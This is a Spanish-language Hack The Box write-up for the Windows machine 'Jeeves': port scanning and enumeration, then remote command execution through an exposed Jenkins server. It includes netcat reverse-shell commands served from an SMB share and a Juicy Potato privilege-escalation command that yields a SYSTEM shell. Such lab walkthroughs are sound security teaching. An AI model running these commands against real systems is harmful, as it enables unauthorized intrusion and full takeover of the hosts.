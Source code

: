 ```yaml
---
title: Jeeves Writeup
date: 2022-08-09
categories: [Writeup, HTB]
tags: [Windows, Jenkins, RCE, CMD, Powershell]
image:
  path: /assets/img/jeeves/jeeves.png
  width: 800 #normal 800
  height: 500 #normal 500
  alt: Jeeves
---
```


# Maquina windows JEEVES.
En esta maquina tendremos que hacer RCE desde una aplicacion llamada JENKINS con una version vulnerable, que nos permite ejecutar comandos de windows cmd o powershell , ejecutaremos comandos para obtener una revershell.

# Reconocimiento.
Con nmap ejecutamos el reconocimiento.

````bash
>nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oG scan 10.10.10.63
 
>Host: 10.10.10.63 ()	Status: Up
Host: 10.10.10.63 ()	
Ports: 80/open/tcp//http/// 
135/open/tcp//msrpc/// 
445/open/tcp//microsoft-ds/// 
50000/open/tcp//ibm-db2/// Ignored State: filtered (65531)
```` 

Copiamos los puertos abiertos y ejecutamos con nmap 

````bash
>nmap -sCV -p80,135,445,50000 -Pn -oN scanport 10.10.10.63

>PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-09-08T21:10:39
|_  start_date: 2022-09-08T21:07:37
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
`````

# Enumeracion
Vamos a revisar los puertos abiertos 80,135,445,50000

## Puerto 445
Usamos  crackmapexec  para obtener informacion de la maquina, vemos que es un windows 10 el nombre del dominio y el nombre da la maquina.

````bash
>crackmapexec smb 10.10.10.63

>SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False)
`````

Con smbclient vemos que no tenemos acceso a recursos compartidos.

````bash
>smbclient -L 10.10.10.63 -N

>session setup failed: NT_STATUS_ACCESS_DENIED
`````

## Puerto 80.
Vamos a la url http://10.10.10.63 

![imagen-de-prueba](/assets/img/jeeves/pagina-puerto-80.png)
_Pagina_


Vemos que la pagina nos muestra algo sencillo y un campo para hacer preguntas, hacemos una prueba ingresando algo en el campo search pero la pagina nos redireciona a una imagen que habla de un error 

![imagen-de-prueba](/assets/img/jeeves/error-pagina-80.png)
_Error:80_

# Puerto 50000
Revisando el scanport de nmap vemos el puerto 50000 abierto con un servicio 

````bash
50000/tcp open  http         `Jetty 9.4.z-SNAPSHOT`
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
`````

Vamos a la url http://10.10.10.63:50000 

![imagen-de-prueba](/assets/img/jeeves/puerto-50000.png)
_Nmap_


Viedo esto intentamos realizar un escaneo con wfuzz a la url con el puerto 50000.

````bash
>wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
`````

Despues de unos minutos el escaneo nos da el una ruta llamada `askjeeves`

![imagen-de-prueba](/assets/img/jeeves/wfuzz.png)
_Escaneo_

Vamos a la url con la nueva ruta http://10.10.10.63:50000/askjeeves, nos lleva a jenkins que es un servidor de automatizacion.

![imagen-de-prueba](/assets/img/jeeves/jenkins.png)
_pagina_


Tenemos un panel donde investigando un poco vemos q podemos crear tareas

![imagen-de-prueba](/assets/img/jeeves/jenkins-2.png)
_pagina_

Analizando un poco vemos que la tarea nos permite ejecutar comandos windows con cme o powershell, viendo esto ya imaginamos vias potenciales para acceder al sistema.

![imagen-de-prueba](/assets/img/jeeves/jenkins-tareas.png)
_Image Caption_

![imagen-de-prueba](/assets/img/jeeves/comandos-cmd .png)
_cmd_

Creamos la tarea con un comando por cmd para hacer un ping a mi maquina.
 
![imagen-de-prueba](/assets/img/jeeves/pingg.png)
_comando ping_ 

Ejecuto tcpdump para ver si mi maquina responde al ping

````bash
>sudo tcpdump -i tun0 icmp
`````

![imagen-de-prueba](/assets/img/jeeves/tcpdump.png)
_tcpdum_ 


Como se ve en la imagen tengo respuesta y ya conesto sabemos que el servidor jenkins es vulnerable y se puede hacer un RCE.

# Intrusion 
Tenemos conocimiento de que podemos hacer RCE con el servidor jenkins, hay muchas formas de ejecutar comandos para tener acceso remoto a la maquina, yo lo hare con smbserver para crear un recurso compartido y luego creo una tarea en jenkins que ejecute un comando para generar una revershell.

1. Con smbserver creo un recurso compartido.

````bash
>sudo impacket-smbserver smbFolder $(pwd) -smb2support 
`````

2. Descargo netcatx64.exe y lo guardo en la ruta de mi recurso compartido.

3. Creo la tarea en jenkins y agrego el siguiente comando.

````bash
>\\10.10.14.16\smbFolder\ncx64.exe -e cmd 10.10.14.16 443
`````

4. Nos ponemos en escucha con nc ,el smbserver esta activo , ejecutamos la tarea y obtenemos una revershell

![imagen-de-prueba](/assets/img/jeeves/revershell.png)
_shell user_ 


# Escalar privilegios 
Una vez dentro de la maquina vemos que estamos con el usuario `kohsuke`, ejecutemos algunos comandos que nos de informacion de este usuario.

````bash
>whoami /priv
`````

imagen de seimpersonal


El usuario cuenta con el `SeImpersonatePrivilege` lo cual nos proporciona una forma de escalar privilegios, para eso usamos una herramienta llamada `Juicy Potato` que nos permite escalar desde una cuenta normal y ejecutar comandos como `NT AUTHORITY\SYSTEM`.

1. Descargamos desde github el binario .exe
2. Subimos el binario a la maquina victima
3. Ejecutamos el siguiente comando para escalar privilegios.

````bash
.\jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443"

##La ruta del ejemplo es de donde almacene el netcat
`````

![imagen-de-prueba](/assets/img/jeeves/revershelladmin.png)
_shell admin_ 
